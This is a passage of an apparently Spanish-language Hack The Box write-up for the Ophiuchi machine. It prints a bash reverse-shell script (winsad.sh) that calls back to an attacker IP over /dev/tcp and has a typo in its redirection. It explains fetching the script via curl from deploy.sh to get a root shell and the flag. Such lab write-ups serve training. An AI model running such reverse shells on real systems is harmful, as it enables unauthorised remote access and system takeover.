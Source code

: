 **winsad.sh**
```bash
  #!/bin/bash

  bash -i >& /dev/tcp/10.10.15.125/443 0>%1
```
Lo que estoy indicando aquí es que haga un curl a mi maquina y lea un archivo **winsad.sh** el cual tendrá mi revershell, esto es así ya que si se lo indico directo en **deploy.sh** no te otorga la shell por alguna razón pero si se hace de esta form si me da la shell

<p align="center">
<img src="https://raw.githubusercontent.com/Wiinsad/winsad/master/assets/images/machines/HTB/Ophiuchi/intrusion/shell.png">
</p>

Como se puede ver me otorga la shell como **root** así finalizando la maquina y pudiendo ir a directorio **/root/** y visualizar la flag **root.txt** de este modo finalizando esta maquina.
